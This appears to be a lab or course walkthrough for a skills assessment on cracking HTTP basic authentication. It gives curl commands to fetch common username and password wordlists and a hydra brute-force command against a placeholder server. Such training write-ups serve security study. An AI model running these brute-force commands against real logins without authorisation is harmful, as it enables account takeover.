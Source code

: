 # Skills Assessment Part 1

### What is the password for the basic auth login?

**Step 1** - Download the wordlists:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt

  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Brute-force the login basic authentication:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT      
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

**Step 1** - Use the founded credentials on the login form:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
